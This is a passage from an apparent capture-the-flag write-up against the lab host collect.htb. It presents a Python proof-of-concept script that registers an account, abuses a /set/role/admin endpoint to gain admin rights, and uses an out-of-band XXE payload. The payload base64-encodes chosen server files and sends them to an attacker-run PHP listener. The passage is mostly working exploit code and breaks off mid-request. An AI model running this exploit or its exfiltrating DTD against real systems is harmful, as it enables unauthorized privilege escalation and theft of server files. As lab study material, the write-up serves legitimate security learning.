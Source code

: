 Created this Python PoC to automate the whole process. Here is what it does:

1. Starts a web server using **`threading.Thread()`**.
2. Creates an account, logs in, and abuses the */set/role/admin* endpoint to become admins.
3. Asks for a filename (full path) and creates the files that we need.
4. Exploits the out-of-band XXE vulnerability to exfiltrate the file content. Goes back to step 3.

```python
import os
import requests
import subprocess
import shlex
import sys
import threading
import urllib.parse

def web_server(port=8081):
    if type(port) == int:
        print(f'\n[+] Starting PHP server on port {port}')
        subprocess.run(shlex.split(f'php -S 0.0.0.0:{port}'))

def remove_files():
    if os.path.exists('dusk.dtd'):
        os.remove('dusk.dtd')

    if os.path.exists('index.php'):
        os.remove('index.php')

def create_files(file, lhost):
    with open('dusk.dtd', 'w') as f:
        f.write('''<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={}">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://{}:8081/?content=%file;'>">'''.format(file, lhost))
    with open('index.php', 'w') as f:
        f.write('''<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>''')

def become_admins(target):
    s = requests.Session()

    # register testing:testing user
    s.post(
        url = f'http://{target}/register',
        headers = {
            'Content-Type': 'application/x-www-form-urlencoded',
            'Host': 'collect.htb'
            },
        data = 'username=testing&password=testing'
    )

    # log in
    s.post(
        url = f'http://{target}/login',
        headers = {
            'Content-Type': 'application/x-www-form-urlencoded',
            'Host': 'collect.htb'
            },
        data = 'username=testing&password=testing'
    )

    # become admins
    s.post(
        url = f'http://{target}/set/role/admin',
```
